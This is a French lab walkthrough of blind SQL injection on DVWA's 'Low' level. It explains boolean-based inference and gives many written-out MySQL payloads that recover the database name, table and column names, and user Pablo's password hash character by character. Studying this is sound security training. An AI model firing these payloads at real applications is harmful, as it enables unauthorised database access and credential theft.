









# Niveau "Low"

Une injection à l'aveugle diffère d'une injection plus classique par le fait que l'application va répondre à mes requêtes seulement par oui ou par non.

Par exemple, l'application répond que l'`id` renseigné est bel et bien présent dans la base (soit une réponse oui) :



Dans le cas contraire, l'application répond par un message spécifique (sur d'autres applications il peut s'agir de l'absence de message) indiquant que l'`id` est inexistant (réponse non) :



Comprenant maintenant un peu mieux le principe de l'injection à l'aveugle, il me reste plus qu'à identifier et exploiter l'injection.

L'injection du caractère spécial `"'"` ne déclenche pas d'erreur, il me faut alors trouver une autre manière de confirmer la présence d'une faille SQL :



Il existe plein de possibilités pour cela, en voici une. Je sais que l'`id` `"1"` existe, je vais donc tenter de modifier la requête afin d'ajouter une clause `AND` :



La réponse négative n'indique pas la présence d'injection SQL à elle-seule, mais couplée à une seconde réponse :



Révèle bien l’existence de la vulnérabilité.

La première étape est de récupérer le nom de la base de données utilisée par l'application. Pour rappel, l'application ne peut répondre seulement que par oui ou par non, je vais donc gentiment demander à l'application si la première lettre du nom de la base commence par `"a"`, par `"b"`, par `"c"` etc ... (j'ai ajouté le premier `"'"` seulement pour la coloration syntaxique) :

```sql
'1' AND ORD(MID(DATABASE(),1,1)) = 100 -- 
```



_Explications_

Ici, je demande à l'application si la première lettre du nom de sa base de données est `"d"` (`100` en décimal). L'application me répond par l'affirmative.

* `DATABASE()` : renvoie la chaîne "dvwa"
* `MID(DATABASE(),1,1)` : renvoie le première caractère de la chaîne retournée par `DATABASE()`
* `ORD()` : renvoie l'équivalent décimal du caractère en paramètre


Il est possible d'utiliser les opérateurs`>=` et `<=` puis d'affiner notre recherche au fur et à mesure


Soit pour la chaîne entière :

```sql
'1' AND ORD(MID(DATABASE(),1,1)) = 100 --   // d
'1' AND ORD(MID(DATABASE(),2,1)) = 118 --   // v
'1' AND ORD(MID(DATABASE(),3,1)) = 119 --   // w
'1' AND ORD(MID(DATABASE(),4,1)) = 97 --    // a
```

De plus, il est également possible de déterminer tout d'abord la longueur de la chaîne renvoyée par la fonction appelée (ici `DATABASE()`) :



Je continue avec la récupération des noms des tables de cette base. Etant en aveugle, je récupère en premier lieu, le nombre de tables existants dans la base (`50` représentant `"2"` en décimal) :



Puis les noms des deux tables :

```sql
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),1,1)) = 103 --  // g 
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),2,1)) = 117 --  // u
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),3,1)) = 101 --  // e
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),4,1)) = 115 --  // s
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),5,1)) = 116 --  // t
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),6,1)) = 98 --   // b
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),7,1)) = 111 --  // o
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),8,1)) = 111 --  // o
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 0,1),9,1)) = 107 --  // k
```

```sql
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 1,2),1,1)) = 117 --  // u 
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 1,2),2,1)) = 115 --  // s
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 1,2),3,1)) = 101 --  // e
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 1,2),4,1)) = 114 --  // r
'1' AND ORD(MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dvwa' LIMIT 1,2),5,1)) = 115 --  // s
```

Je détermine ensuite le nombre de colonnes de la table `users` , soit ici 8 (`56` en décimal) :&#x20;

```sql
'1' AND ORD(MID((SELECT COUNT(column_name) FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa'),1,1)) = 56 -- 
```



Puis je retrouve les noms des colonnes (ici en exemple `user` et `password`) :

```sql
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 3,1),1,1)) = 117 --  // u 
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 3,1),2,1)) = 115 --  // s
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 3,1),3,1)) = 101 --  // e
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 3,1),4,1)) = 114 --  // r
```

```sql
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 4,1),1,1)) = 112 --  // p 
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 4,1),2,1)) = 97 --   // a
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 4,1),3,1)) = 115 --  // s
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 4,1),4,1)) = 115 --  // s
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 4,1),5,1)) = 119 --  // w
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 4,1),6,1)) = 111 --  // o
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 4,1),7,1)) = 114 --  // r
'1' AND ORD(MID((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' AND table_schema='dvwa' LIMIT 4,1),8,1)) = 100 --  // d
```

Finalement, l'empreinte du mot de passe de notre victime (ici Pablo) :

```sql
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),1,1)) = 48 --   // 0  
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),2,1)) = 100 --  // d
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),3,1)) = 49 --   // 1
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),4,1)) = 48 --   // 0
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),5,1)) = 55 --   // 7
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),6,1)) = 100 --  // d
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),7,1)) = 48 --   // 0
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),8,1)) = 57 --   // 9
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),9,1)) = 102 --  // f
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),10,1)) = 53 --  // 5
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),11,1)) = 98 --  // b
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),12,1)) = 98 --  // b
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),13,1)) = 101 -- // e
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),14,1)) = 52 --  // 4
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),15,1)) = 48 --  // 0
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),16,1)) = 99 --  // c
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),17,1)) = 97 --  // a
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),18,1)) = 100 -- // d
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),19,1)) = 101 -- // e
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),20,1)) = 51 --  // 3
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),21,1)) = 100 -- // d
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),22,1)) = 101 -- // e
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),23,1)) = 53 --  // 5
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),24,1)) = 99 --  // c
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),25,1)) = 55 --  // 7
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),26,1)) = 49 --  // 1
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),27,1)) = 101 -- // e
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),28,1)) = 57 --  // 9
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),29,1)) = 101 -- // e
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),30,1)) = 57 --  // 9
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),31,1)) = 98 --  // b
'1' AND ORD(MID((SELECT password FROM dvwa.users WHERE user='Pablo'),32,1)) = 55 --  // 7
```

Soit :



On se concentre ici seulement sur l'utilisateur Pablo mais il est bien sur possible de récupérer tous les noms des utilisateurs ainsi que les mots de passe associés en utilisant la même technique

